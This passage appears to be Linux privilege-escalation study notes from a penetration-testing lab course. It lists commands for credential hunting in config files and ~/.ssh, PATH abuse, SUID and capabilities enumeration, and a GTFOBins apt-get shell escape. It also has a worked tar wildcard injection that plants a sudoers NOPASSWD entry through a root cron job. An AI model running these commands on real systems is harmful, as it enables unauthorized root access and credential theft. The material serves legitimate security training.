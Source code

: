     - ps aux | grep root
- Credential Hunting
    - cat wp-config.php | grep 'DB_USER\|DB_PASSWORD’
    - find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
    - ls ~/.ssh
- Path Abuse
    - echo $PATH
    - Adding current directory to path
        - PATH=.:$PATH and then export PATH
- Wildcard Abuse
    
    
    | Character | Significance |
    | --- | --- |
    | * | An asterisk that can match any number of characters in a file name. |
    | ? | Matches a single character. |
    | [ ] | Brackets enclose characters and can match any single one at the defined position. |
    | ~ | A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory. |
    | - | A hyphen within brackets will denote a range of characters. |
    - tar abuse
    - (--checkpoint-action) permits exec action to be execture
    - (-checkpoint=1 and --checkpoint-action=exec=sh [root.sh](http://root.sh/) is passed to tar as command-line options)
    
    ```xml
    #
    #
    mh dom mon dow command
    */01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
    ```
    
    ```xml
    htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
    htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
    htb-student@NIX02:~$ echo "" > --checkpoint=1
    ```
    
- Escaping Restricted Shells
    - ls -l ‘pwd’
- Special Permissions
    - find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
    - find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
- GTFOBins
    - sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
- Sudo Rights Abuse
    - sudo -l
- Privileged Groups
    - LXC / LXD
- Capabilities
    - Enumerating Capabilities
        - find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
- Vulnerable Services
    - Screen version
- Cron Job Abuse
    - find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
- Logrotate